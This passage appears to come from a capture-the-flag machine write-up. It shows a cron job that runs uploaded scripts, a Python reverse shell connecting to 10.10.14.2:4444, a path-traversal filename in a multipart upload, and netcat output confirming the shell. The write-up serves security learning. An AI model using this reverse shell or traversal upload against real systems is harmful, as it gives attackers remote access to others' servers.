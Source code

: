 ```markdown
"""
python3 app.py
"""

You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/REDACTED.htb/scripts/*.py; do python3 "$f"; done
"""
```

See this code , the last cronjob , i thought they were just suggesting , but if you look closely . The server actually implemented it and running it every minute . . . 

So we can place python script in scripts folder and get shell . 
I was fixating on the sqlite3 because it was working locally , I got shell when the package was loaded . And the app was querying DB . . .  It wasn't working on the challenge , made me thinking some wrong I must be doing and keep focusing on that

But now I can get reverse shell . Thanks to the discord community . Who give just enough nudge so you know where to focus and figure it out yourself . .  .

Lets place our reverse shell in scripts folder . Same code as sqlite3 , just removed the function
```python
import socket
import subprocess
import os
import pty

print("Hey I'm called")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.2", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("/bin/bash")
```

Modified the upload request in Burp
**`Content-Disposition: form-data; name="xml_file"; filename="../scripts/rev.py"`**

## User Privilege Escalation 

Started my netcat listener . Lets wait for a minute and see . 
And here we are
```bash
┌──(env)─(teja㉿x50ubr)-[~/…/Machines/Active/Converser/Code]
└─$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.92] 52614
www-data@REDACTED:~$ 

```
